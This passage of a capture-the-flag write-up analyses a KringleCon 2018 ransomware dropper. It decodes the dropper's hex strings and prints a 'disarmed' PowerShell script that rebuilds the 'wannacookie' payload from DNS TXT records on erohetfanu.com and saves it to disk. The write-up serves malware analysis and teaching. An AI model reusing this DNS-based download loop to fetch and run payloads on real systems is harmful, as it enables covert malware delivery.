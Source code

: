 
At a first glance, this second stage of the malware downloads something via dns then executes it.
We'll do the same process of "disarming" the `iex` and analyzing the script.

The `H2A` function is an hex string to ascii converter... we can test it with the `$f = "77616E6E61636F6F6B69652E6D696E2E707331"; ` variable that we've already decoded:
```
H2A "77616E6E61636F6F6B69652E6D696E2E707331"
wannacookie.min.ps1
```

Then we have a foreach portion which
- iterates from 0 to the result of a dns query
- foreach iteration it makes a sequential dns query to build up `$h`

Finally, it converts $h from hex 2 ascii and run it.

Let's analyze the foreach limit:
```
> (Resolve-DnsName -Server erohetfanu.com -Name "77616E6E61636F6F6B69652E6D696E2E707331.erohetfanu.com" -Type TXT).strings
64                                                                ```          
```
The foreach will iterate from 0 to 64, like this:

```
(Resolve-DnsName -Server erohetfanu.com -Name "0.77616E6E61636F6F6B69652E6D696E2E707331.erohetfanu.com" -Type TXT).strings
2466756e6374696f6e73203d207b66756e6374696f6e20655f645f66696c6528246b65792c202446696c652c2024656e635f697429207b5b627974655b5d5d246b6579203d20246b65793b24
537566666978203d2022602e77616e6e61636f6f6b6965223b5b53797374656d2e5265666c656374696f6e2e417373656d626c

(Resolve-DnsName -Server erohetfanu.com -Name "1.77616E6E61636F6F6B69652E6D696E2E707331.erohetfanu.com" -Type TXT).strings
795d3a3a4c6f6164576974685061727469616c4e616d65282753797374656d2e53656375726974792e43727970746f67726170687927293b5b53797374656d2e496e7433325d244b65795369
7a65203d20246b65792e4c656e6774682a383b2441455350203d204e65772d4f626a656374202753797374656d2e5365637572
```

Download the malware code with [`analyzed_malware_stage2.ps1`](https://github.com/Simone-Zabberoni/kringlecon-2018-report/blob/master/9/analyzed_malware_stage2.ps1):

```
# Hex string to ASCII string
function H2A($a) {
 $o; $a -split '(..)' | ? { $_ }  | forEach {[char]([convert]::toint16($_,16))} | forEach {$o = $o + $_}; 
 return $o
};

# wannacookie.min.ps1 hex string
$f = "77616E6E61636F6F6B69652E6D696E2E707331"; 
$h = ""; 


# Malware download routine, from 0 to 64
# basing on the result of the dns query for the TXT record of 77616E6E61636F6F6B69652E6D696E2E707331.erohetfanu.com
foreach ($i in 0..([convert]::ToInt32((Resolve-DnsName -Server erohetfanu.com -Name "$f.erohetfanu.com" -Type TXT).strings, 10)-1)) {
    # each query appends an hex string to $h
    $h += (Resolve-DnsName -Server erohetfanu.com -Name "$i.$f.erohetfanu.com" -Type TXT).strings}; 

# convert the hex string to ascii, then save it to file
($(H2A $h | Out-string)) | out-file wannacookie-malware.ps1
```